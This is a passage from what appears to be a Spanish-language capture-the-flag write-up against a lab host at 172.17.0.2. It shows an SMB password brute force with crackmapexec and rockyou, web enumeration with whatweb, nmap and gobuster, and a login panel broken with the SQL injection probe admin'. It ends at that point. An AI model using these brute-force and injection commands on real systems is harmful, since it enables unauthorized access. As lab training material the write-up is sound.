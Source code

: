 Realizando un ataque de fuerza bruta no obtuvimos nada:
```bash
crackmapexec smb 172.17.0.2 -u dylan -p /usr/share/wordlists/rockyou.txt
```

## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2 # No reporta nada critico
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
	No reporta nada critico

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt,pl,html
```

- **Hallazgos**:
```bash
/index.php            (Status: 200) [Size: 2921]
/.php                 (Status: 403) [Size: 275]
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Tenemos un panel de login el cual vamos a auditar si es vulnerable a alguna inyeccion para ganar accesso
```bash
http://172.17.0.2/index.php
```
### Ejecucion del Ataque
Tenemos este panel que es vulnerable a **SQLInjection** ya que hemos logrado romper la **query** del panel de inicio de sesion
```bash
# Comandos para explotación
admin'
```
